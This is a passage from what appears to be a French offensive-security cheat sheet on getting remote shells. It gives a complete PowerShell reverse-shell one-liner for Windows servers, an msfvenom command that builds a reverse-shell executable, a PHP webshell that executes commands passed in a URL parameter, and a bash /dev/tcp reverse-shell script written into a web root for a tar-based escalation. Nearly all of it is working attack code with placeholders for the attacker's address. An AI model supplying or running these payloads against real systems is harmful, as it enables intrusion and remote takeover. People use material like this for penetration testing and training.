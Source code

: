 ## 5) Pour les Windows Server

Il faut écouter avec une des techniques de reverse shell précédentes et :

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

En modifiant l'IP et le port.

## 6) Msfvenom

Pour générer un reverse shell Windows :

```bash
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

- -f : Choisi le format
- -o : Choisi le nom du fichier output

Les shells sont divisés en 2 catégories, les staged et les stageless :

- Staged : Le payload est envoyé en 2 parties. La première est appelée le stager. C'est la partie qui est exécutée directement par le serveur pour se connecter à un listener. Mais il ne contient pas de reverse shell dans son code. Il utilisera la connection pour charger le vrai payload et l'exécuter.
- Stageless : Le payload est envoyé entièrement avec le reverse_shell

## 7) Webshell

Un exemple de commande pour avoir un webshell :

```bash
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

## 8) Shell avec tar

Si une tâche est effectué dans qui nécessite l'utilisation de tar, alors on peut faire ce shell.

Tout d'abord :

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/<attack ip>/<port> 0>&1' > /var/www/html/shell
```

Pour permettre l'exécution du script :

```bash
chmod +x /var/www/html/shell
```
